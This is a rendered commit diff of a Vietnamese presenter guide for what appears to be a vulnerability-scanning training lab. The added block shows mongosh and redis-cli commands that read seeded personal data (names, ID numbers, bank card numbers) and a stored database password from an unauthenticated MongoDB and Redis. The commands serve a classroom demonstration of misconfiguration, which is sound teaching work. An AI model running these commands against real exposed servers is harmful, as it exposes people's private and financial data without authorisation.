

Before and after one commit to vodinhphuc/vuln-scanning-lab, a Markdown page: docs/presenter-guide.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(presenter-guide): thêm block "khám phá Mongo/Redis từ Kali" (money shot Data)
show dbs/collections/findOne + chiếu 5 bản ghi PII (ho_ten/cccd/sdt/thẻ NH);
ghi chú mongosh không có trên Kali -> docker exec lab-mongo; nhắc seed_all.sh nạp data.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/docs/presenter-guide.md
+++ b/docs/presenter-guide.md
@@ -118,6 +118,21 @@ redis-cli -h $T GET app:db:password
 **Bản chất:** script NSE gửi lệnh của **chính giao thức** — Mongo `buildInfo`, Redis `INFO`. Server trả lời mà không đòi credential = chưa bật auth.
 **Nói:** "Vào thẳng Mongo, đọc được key trong Redis — không cần một mật khẩu nào."
 
+**Khám phá dữ liệu thật từ Kali** (như một admin, dù không có tài khoản):
+```bash
+mongosh "mongodb://$T:27017"          # phiên tương tác:
+#   show dbs · use hocvien · show collections · db.hoc_vien.countDocuments() · db.hoc_vien.findOne()
+# hoặc một dòng — chiếu 5 bản ghi PII cho lớp:
+mongosh "mongodb://$T:27017" --quiet --eval \
+ 'db.getSiblingDB("hocvien").hoc_vien.find({},{ho_ten:1,cccd:1,so_dien_thoai:1,the_ngan_hang:1,_id:0}).limit(5)'
+redis-cli -h $T KEYS 'hv:*' | head    # các key chứa PII trong Redis
+```
+> `mongosh` KHÔNG có trong repo Kali (repo riêng của MongoDB). Kali thiếu thì chạy trên target:
+> `docker exec -i lab-mongo mongosh --quiet --eval 'db.getSiblingDB("hocvien").hoc_vien.findOne()'`
+> Dữ liệu Mongo/Redis do `bash data/seed/seed_all.sh` nạp (chạy trên target sau `docker compose up`).
+
+**Nói (money shot):** "Tôi đang ở Kali, không có tài khoản gì trên hệ thống này. `show dbs` thấy toàn bộ database; `findOne` ra một học viên thật với CCCD và số thẻ ngân hàng — chỉ vì Mongo bind `0.0.0.0` và không bật `--auth` (GT-D01)."
+
 ## 2. At rest — bucket public rò PII ⭐ (money shot)
 **Lệnh** `[Kali]`
 ```bash
````
